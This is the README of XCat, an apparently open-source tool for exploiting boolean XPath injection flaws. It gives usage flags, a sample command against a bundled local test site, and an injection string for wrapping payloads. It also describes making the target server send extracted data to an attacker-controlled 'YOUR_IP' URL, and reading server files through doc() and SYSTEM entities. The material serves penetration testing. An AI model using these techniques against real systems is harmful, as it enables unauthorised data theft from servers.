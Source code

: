 XCat
====

XCat is a command line program that aides in the exploitation of XPath injection vulnerabilities.
It boasts a wide range of features and can utilize the more advanced features of the XPath 2.0 specification (pattern matching, unicode normilization and even http requests) or gracefully degrade to using XPath 1.0 if they are not available.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request) and it requires you to manually identifiy the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* Small and lightweight (only dependency is [Twisted](http://www.twistedmatrix.com))
* Parallel requests
* XPath 2.0 supported (with graceful degrading to 1.0)
* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)
* Arbitrarily read text files on the servers file system via crafted SYSTEM entities

Examples
--------
If you run a windows machine you can install IronPython and start the example application (example_application/ironpython_site.py).
The simplest command you can run on this site is:

`python xcat.py --true "Book found" --arg "title=Bible" --method POST --autopwn http://localhost:80`

You have to specify a condition keyword or HTTP status code (true, false, error), an argument for the attack to be appended to and a HTTP method to use.
The --autopwn flag will make xcat automatically detect more exotic features (xpath version, quote character and various out of bound attacks).


Usage
-----
    usage: xcat.py [-h] [--method {GET,POST}] [--arg POST_ARGUMENT]
                   [--true TRUE_KEYWORD | --false FALSE_KEYWORD | --error ERROR_KEYWORD]
                   [--true-code TRUE_CODE | --false-code FAIL_CODE | --error-code ERROR_CODE]
                   [--autopwn] [--schema-only] [--quotecharacter QUOTE_CHARACTER]
                   [--executequery EXECUTEQUERY] [--max_search SEARCH_LIMIT]
                   [--timeout TIMEOUT] [--stepsize STEP_SIZE]
                   [--normalize {NFD,NFC,NFDK,NFKC}] [--xversion {1,2,auto}]
                   [--lowercase] [--regex] [--connectback CONNECTBACK]
                   [--notfoundstring NOTFOUNDCHAR] [--fileshell] [--getcwd]
                   [--useragent USER_AGENT] [--timeit] [--ignorecomments]
                   [--codepointstart CODEPOINTSTART]
                   URL

### Simple usage with the example application
Check out the [readme](xcat/blob/master/src/example_application) to try out XCat with the provided example application.

Altering the payload
--------
XCat will use a set of payloads to retrieve the target document. By default the payload is tacked onto the end of the --arg argument (the actual POST/GET parameters sent to the server). This will work for simple AND based injection vulnerabilities, but if you need more control then you can wrap the payload XCat generates into your own. This is simple to do - simply include a {0} in the --arg argument to have XCat insert its payload there. For example the injection might require an OR instead of an AND, using --arg "username=x' or ('1'='1{0}') or '1'='1" will work as the payload generated by xcat will replace the {0}.

HTTP Postback / doc function
----------------------------
Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP server within the program which listens on a specified port and by then calling the doc() function with the currently targetted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your IP (requires the port to be forwarded and/or a public IP) in the following format:

	http://YOUR_IP/?q=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using the --fileshell flag and enter any file path.
